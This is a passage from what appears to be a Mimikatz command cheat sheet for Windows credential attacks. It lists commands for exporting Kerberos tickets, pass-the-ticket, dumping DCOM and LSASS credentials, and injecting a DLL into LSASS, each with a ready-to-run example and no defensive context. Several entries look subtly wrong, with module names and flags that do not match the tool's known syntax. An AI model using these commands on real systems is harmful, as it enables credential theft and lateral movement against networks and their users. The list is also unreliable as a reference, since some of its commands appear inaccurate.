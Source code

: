 6. **Dump Kerberos Tickets to a File**
   - **Command:**
     ```bash
     mimikatz # kerberos::tickets /export
     ```
   - **Example:**
     ```bash
     mimikatz # kerberos::tickets /export
     ```
   - **Description:** Exports Kerberos tickets to a file.

7. **Pass-the-Ticket Attack**
   - **Command:**
     ```bash
     mimikatz # kerberos::ptt <ticket file>
     ```
   - **Example:**
     ```bash
     mimikatz # kerberos::ptt ticket.kirbi
     ```
   - **Description:** Passes a Kerberos ticket to another session.

8. **Dump DCOM Credentials**
   - **Command:**
     ```bash
     mimikatz # dcom::cred
     ```
   - **Example:**
     ```bash
     mimikatz # dcom::cred
     ```
   - **Description:** Dumps DCOM credentials from memory.

9. **Extract Credentials from LSASS**
   - **Command:**
     ```bash
     mimikatz # sekurlsa::logonpasswords /dump
     ```
   - **Example:**
     ```bash
     mimikatz # sekurlsa::logonpasswords /dump
     ```
   - **Description:** Dumps credentials from the Local Security Authority Subsystem Service (LSASS) process.

10. **Inject a DLL into LSASS**
    - **Command:**
      ```bash
      mimikatz # misc::inject <DLL path>
      ```
    - **Example:**
      ```bash
      mimikatz # misc::inject c:\path\to\dll.dll
      ```
    - **Description:** Injects a DLL into the LSASS process.
